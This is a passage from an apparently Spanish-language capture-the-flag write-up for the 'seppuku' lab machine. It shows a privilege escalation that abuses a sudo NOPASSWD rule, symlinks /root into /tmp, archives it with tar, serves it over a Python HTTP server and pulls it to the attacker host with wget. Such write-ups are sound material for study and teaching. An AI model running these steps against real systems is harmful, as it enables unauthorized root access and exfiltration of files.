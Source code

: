 Por lo que haremos lo siguiente...

```shell
sudo ln -sf /root/ /tmp/
```

En el usuario `samurai` si le hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Creamos un archivo "inutil" en `/tmp` que luego veremos por que... `(OPCIONAL)`

```shell
nano script.sh

#Dentro de nano
#!/bin/bash

echo 'HOLA'
```

Si nos vamos al usuario `tanto` tendremos que crear la ruta del `sudo -l` de 'samurai'...

```shell
mkdir .cgi_bin

#Dentro de .cgi_bin/
nano bin

#Dentro de nano
#!/bin/bash

tar -czhvf /home/tanto/.cgi_bin/root.tar.gz -C /tmp root

python3 -m http.server
```

Lo que hacemos es comrpimir el contenido del enlace simbolico (/root/) y llevarlo a la carpeta de `/.cgi_bin/` y en el usuario `samurai` tendremos que ir tambien a `/.cgi_bin/` para que cuando se comprima esa carpeta automaticamente se abra un servidor de `python` y te lo puedas pasar a tu `host`...

Cuando haya hecho ese `bin` en el usuario `samurai` ejecutamos lo siguiente...

```shell
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Y se te abrira el servidor de `python`, desde tu `host` hacemos lo siguiente...

```shell
wget http://<IP>:8000/root.tar.gz
```
